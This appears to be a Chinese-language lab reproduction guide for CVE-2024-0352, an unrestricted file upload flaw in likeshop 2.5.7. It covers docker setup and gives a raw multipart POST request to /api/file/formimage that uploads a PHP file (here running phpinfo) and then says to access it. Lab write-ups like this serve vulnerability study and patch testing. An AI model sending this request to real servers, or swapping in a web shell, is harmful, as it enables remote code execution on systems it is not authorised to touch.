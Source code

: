 # CVE-2024-0352 likeshop v2.5.7文件上传漏洞

Likeshop是Likeshop开源的一个社交商务策略的完整解决方案，开源免费版基于thinkPHP开发。Likeshop 2.5.7.20210311及之前版本存在代码问题漏洞，该漏洞源于文件server/application/api/controller/File.php的参数file会导致不受限制的上传。


开源项目地址：https://github.com/likeshop-github/likeshop/releases/tag/2.5.7

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2024-0352
- https://blog.csdn.net/shelter1234567/article/details/135918508

## 漏洞环境

执行如下命令启动一个likeshop-v2.5.7-web：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:80`跳转到Likeshop 安装向导页面。

设置好mysql等参数

![](https://img-blog.csdnimg.cn/direct/ae6bcbb61cce40b39de80195d40bd23f.png)

需要注意的是mysql主机名称应填入mysql

![image-20240229165833535](./1.png)



## 漏洞复现

构造请求上传包

```
POST /api/file/formimage HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=---------------------------348900489633202294591557761619
Content-Length: 248

-----------------------------348900489633202294591557761619
Content-Disposition: form-data; name="file"; filename="b.php"
Content-Type: application/octet-stream

<?php phpinfo(); ?>
-----------------------------348900489633202294591557761619--
```

![](https://img-blog.csdnimg.cn/direct/19da932551214374b756414f3eb7efdf.png)

访问payload文件

![](https://img-blog.csdnimg.cn/direct/f8432c783fe243f2a6a838c9a3eb3687.png)
